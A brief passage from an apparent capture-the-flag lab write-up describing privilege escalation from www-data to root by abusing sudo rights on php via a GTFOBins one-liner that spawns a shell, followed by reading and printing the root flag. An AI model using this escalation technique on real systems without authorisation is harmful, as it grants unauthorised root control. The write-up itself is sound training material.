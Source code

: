 now i'm going to use the resource provided by the module GTFOBins to look up php and see if I can escalate privileges with this:
![[Pasted image 20250604171942.png]]

I can so it's time to use the command and see if I can get PrivEsc

```
www-data@gettingstarted:/var/www/html/theme/Innovation$ CMD="/bin/sh"

www-data@gettingstarted:/var/www/html/theme/Innovation$ sudo php -r "system('$CMD');"

id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
root.txt
snap
cat root.txt
f1fba6e9f71efb2630e6e34da6387842
```

BOOM! Able to achieve the root flag by setting a shell as a variable and running it within the php command
